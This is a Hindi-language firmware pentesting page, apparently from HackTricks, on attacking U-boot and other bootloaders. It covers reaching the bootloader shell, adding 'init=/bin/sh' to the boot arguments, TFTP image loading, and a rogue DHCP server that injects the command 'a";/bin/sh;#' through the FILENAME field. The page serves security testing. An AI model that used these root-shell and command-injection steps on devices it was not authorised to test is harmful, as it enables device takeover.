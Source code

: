 {{#include ../../banners/hacktricks-training.md}}

डिवाइस स्टार्टअप कॉन्फ़िगरेशन और बूटलोडर्स जैसे U-boot को संशोधित करने के लिए निम्नलिखित चरणों की सिफारिश की जाती है:

1. **बूटलोडर के इंटरप्रेटर शेल तक पहुँचें**:

- बूट के दौरान, बूटलोडर के इंटरप्रेटर शेल तक पहुँचने के लिए "0", स्पेस, या अन्य पहचाने गए "जादुई कोड" दबाएँ।

2. **बूट आर्गुमेंट्स को संशोधित करें**:

- बूट आर्गुमेंट्स में '`init=/bin/sh`' जोड़ने के लिए निम्नलिखित कमांड्स निष्पादित करें, जिससे शेल कमांड का निष्पादन संभव हो सके:
%%%
#printenv
#setenv bootargs=console=ttyS0,115200 mem=63M root=/dev/mtdblock3 mtdparts=sflash:<partitiionInfo> rootfstype=<fstype> hasEeprom=0 5srst=0 init=/bin/sh
#saveenv
#boot
%%%

3. **TFTP सर्वर सेटअप करें**:

- स्थानीय नेटवर्क पर इमेज लोड करने के लिए एक TFTP सर्वर कॉन्फ़िगर करें:
%%%
#setenv ipaddr 192.168.2.2 #डिवाइस का स्थानीय IP
#setenv serverip 192.168.2.1 #TFTP सर्वर IP
#saveenv
#reset
#ping 192.168.2.1 #नेटवर्क एक्सेस की जाँच करें
#tftp ${loadaddr} uImage-3.6.35 #loadaddr फ़ाइल को लोड करने के लिए पता लेता है और TFTP सर्वर पर इमेज का फ़ाइल नाम
%%%

4. **`ubootwrite.py` का उपयोग करें**:

- रूट एक्सेस प्राप्त करने के लिए U-boot इमेज लिखने और संशोधित फर्मवेयर को पुश करने के लिए `ubootwrite.py` का उपयोग करें।

5. **डिबग सुविधाओं की जाँच करें**:

- यह सत्यापित करें कि क्या विस्तृत लॉगिंग, मनमाने कर्नेल लोड करने, या अविश्वसनीय स्रोतों से बूट करने जैसी डिबग सुविधाएँ सक्षम हैं।

6. **सावधानीपूर्वक हार्डवेयर हस्तक्षेप**:

- डिवाइस बूट-अप अनुक्रम के दौरान एक पिन को ग्राउंड से जोड़ने और SPI या NAND फ्लैश चिप्स के साथ बातचीत करते समय सावधान रहें, विशेष रूप से कर्नेल के डिकंप्रेस होने से पहले। पिन को शॉर्ट करने से पहले NAND फ्लैश चिप के डेटा शीट की जांच करें।

7. **रोग DHCP सर्वर कॉन्फ़िगर करें**:
- PXE बूट के दौरान डिवाइस द्वारा ग्रहण करने के लिए दुर्भावनापूर्ण पैरामीटर के साथ एक रोग DHCP सर्वर सेट करें। Metasploit के (MSF) DHCP सहायक सर्वर जैसे उपकरणों का उपयोग करें। डिवाइस स्टार्टअप प्रक्रियाओं के लिए इनपुट मान्यता का परीक्षण करने के लिए कमांड इंजेक्शन कमांड जैसे `'a";/bin/sh;#'` के साथ 'FILENAME' पैरामीटर को संशोधित करें।

**नोट**: डिवाइस पिन के साथ भौतिक इंटरैक्शन से संबंधित चरणों (\*तारों के साथ चिह्नित) को डिवाइस को नुकसान से बचाने के लिए अत्यधिक सावधानी के साथ किया जाना चाहिए।

## संदर्भ

- [https://scriptingxss.gitbook.io/firmware-security-testing-methodology/](https://scriptingxss.gitbook.io/firmware-security-testing-methodology/)

{{#include ../../banners/hacktricks-training.md}}
